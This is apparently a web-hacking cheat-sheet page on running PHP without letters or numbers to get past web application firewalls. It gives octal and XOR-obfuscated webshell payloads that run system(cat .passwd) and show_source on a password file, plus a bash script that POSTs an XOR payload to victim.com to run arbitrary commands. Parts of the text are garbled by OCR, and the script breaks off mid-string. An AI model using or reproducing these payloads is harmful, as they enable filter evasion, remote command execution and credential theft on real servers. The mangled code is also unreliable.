 If yo are debugging a PHP application you can globally enable error printing in`/etc/php5/apache2/php.ini` adding `display_errors = On` and restart apache : `sudo systemctl restart apache2`

## Execute PHP without letters

[https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

### Using octal

```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```

### **XOR**

```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```

### XOR Shellcode \(inside eval\)

```bash
#!/bin/bash

if [[ -z $1 ]]; then
  echo "USAGE: $0 CMD"
  exit
fi

CMD=$1
CODE="\$_='\
```

```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```

### Perl like

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
```